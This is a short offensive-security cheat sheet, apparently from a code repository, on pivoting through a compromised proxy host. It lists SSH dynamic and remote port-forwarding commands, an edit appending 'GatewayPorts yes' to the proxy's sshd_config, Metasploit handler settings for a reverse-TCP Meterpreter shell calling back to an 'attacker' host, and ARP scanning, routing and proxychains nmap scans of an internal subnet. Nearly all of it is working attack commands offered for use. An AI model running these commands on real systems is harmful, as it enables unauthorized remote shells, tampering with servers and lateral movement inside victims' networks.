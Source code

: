 # Pivoting - SSH Socks Proxies with MSF Reverse TCP Payloads

* CASE1: Single User Access: Use OpenSSH local port forward mechanism by establishing a second SSH channel
* CASE2: Root Access: Modify OpenSSH configuration and use the remote port forward feature

## view Graphs
![Reverse Meterpreter Pivoting - 1](msf_reverse_meterpreter1.jpg)
![Reverse Meterpreter Pivoting - 2](msf_reverse_meterpreter2.jpg)


## CASE-1. low priv. user access on proxy
ssh -D 8181 blahh@proxy
ssh -L 4444:attacker:53 blahh@127.0.0.1 -g

## CASE-2.
Root Access on proxy
ssh -D 8181 -R 4444:attacker:53 root@proxy
echo "GatewayPorts yes" >> /etc/ssh/sshd_config && service ssh reload

# both CASE's cont here - attackers view:
msfconsole
set ReverseAllowProxy true
setg Proxies socks4:127.0.0.1:8181
use multi/handler
set PAYLOAD linux/x86/meterpreter/reverse_tcp
set LHOST attacker #192.168.2.102
set LPORT 53
exploit -j

# Windows - Pivot
## Discover new Hosts
use windows/gather/arp_scanner
set SESSION 1
route add 172.20.214.0 255.255.255.0 1
set RHOSTS 172.20.214.0/24
exploit

use server/socks4a
set SRVHOST 127.0.0.1
set SRVPORT 1080
run
cp /etc/proxychains.conf .
proxychains nmap -Pn -n -sT 172.20.214.10 -sV --version-all | grep -v " <--denied\|NSOCK INFO" | tee -a pivot-scan.log

tags: proxychains ssh
